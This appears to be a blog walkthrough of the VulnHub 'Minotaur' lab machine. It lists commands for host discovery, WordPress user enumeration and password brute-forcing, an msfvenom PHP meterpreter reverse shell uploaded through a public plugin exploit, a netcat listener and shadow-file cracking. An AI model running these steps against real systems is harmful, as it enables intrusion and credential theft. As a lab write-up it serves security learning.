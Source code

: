 ```yaml
---
layout: post
title: "SecTalks: BNE0x00 - Minotaur"
date: 2016-04-26 14:27:14 -0400
comments: true
categories: [vulhub, wordpress]
---
```



From [Vulhub](https://www.vulnhub.com/entry/sectalks-bne0x00-minotaur,139/)

###Forces:

* netdiscover
* Nmap
* Wfuzz
* WPscan
* msfvenom
* John the Ripper


<!--more-->

Use netdiscover to detect target IP address

`netdiscover -i eth0 -r 192.168.56.0/24`

{% img  /images/blog/vulhub/bne03/Selection_001.png   [title manually exploit [alt text]] %}

192.168.56.223 is the target.


Then run nmap to detect opening ports and running services on the target machine.

`nmap -sV -v -O -A -T5 192.168.56.223 -p-`

{% img  /images/blog/vulhub/bne03/Selection_002.png   [title manually exploit [alt text]] %}

port 22, 80 and 2020 are opening.

use wfuzz to find more locations

`wfuzz -c -z file,/usr/share/wordlists/dirbuster/directory-list-2.3-small.txt --hc 404 http://192.168.56.223/FUZZ 2>/dev/null`


{% img  /images/blog/vulhub/bne03/Selection_003.png   [title manually exploit [alt text]] %}

found http://192.168.56.223/bull/

Check the page, looks like it uses wordpress. Good. maybe I can find out some outdated wordpress plugins.

{% img  /images/blog/vulhub/bne03/Selection_004.png   [title manually exploit [alt text]] %}

I use wpscan to find wordpress plugins vulnerabilities.

`uby wpscan.rb --url http://192.168.56.223/bull/`

get some xss vulnerabilities and an interestig arbutrart file upload vulnerability.

{% img  /images/blog/vulhub/bne03/Selection_005.png   [title manually exploit [alt text]] %}

next step, user enumeration.

`ruby wpscan.rb --url http://192.168.56.223/bull/ --enumerate u`

{% img  /images/blog/vulhub/bne03/Selection_006.png   [title manually exploit [alt text]] %}

get a user name `bully`


next step, password guessing:

`ruby wpscan.rb --url http://192.168.56.223/bull/ --wordlist SecLists/Passwords/passwords_john.txt threads 50`

no luck this time. Let's try harder..

we use cewl this time to generate password file

`cewl -w password.txt http://192.168.56.223/bull/`

also john the ripper should be used to mutate the password file:

`john --wordlist=password.txt --rules --stdout > out.txt`

now I use wpscan to brute force the password:

`wpscan --url 192.168.56.223/bull --wordlist out.txt --username bully`

{% img  /images/blog/vulhub/bne03/Selection_007.png   [title manually exploit [alt text]] %}


Now, create php reverse shell:

`msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.56.223 -a php --platform php -o evil.php`

based one wpscan scan result, the wordpress slideshow gallery shell upload exploit(https://www.exploit-db.com/exploits/34681/) is found. Save it as `wp_gallery.py`

run:

`python wp_gallery.py -t http://192.168.56.223/bull -u bully -p Bighornedbulls -f evil.php`


{% img  /images/blog/vulhub/bne03/Selection_008.png   [title manually exploit [alt text]] %}

set netcat 
`nc -nlvp 1234`

visit `http://192.168.56.223/bull/wp-content/uploads/slideshow-gallery/evil.php`

get the meterpreter

{% img  /images/blog/vulhub/bne03/Selection_009.png   [title manually exploit [alt text]] %}

locate flag.txt and get the result `/tmp/flag.txt`

find a file shadow.bak in /tmp, I got some interesting things:

{% img  /images/blog/vulhub/bne03/Selection_011.png   [title manually exploit [alt text]] %}

Looks like there are more chances to me. Download this file and use john to crack more.

`john --fork=4 shadow.bak`

now I have two more accounts info

{% img  /images/blog/vulhub/bne03/Selection_012.png   [title manually exploit [alt text]] %}

use python `python -c 'import pty; pty.spawn("/bin/bash")'`

Login as heffer:

{% img  /images/blog/vulhub/bne03/Selection_013.png   [title manually exploit [alt text]] %}

Login as minotaur:

{% img  /images/blog/vulhub/bne03/Selection_014.png   [title manually exploit [alt text]] %}


DONE.








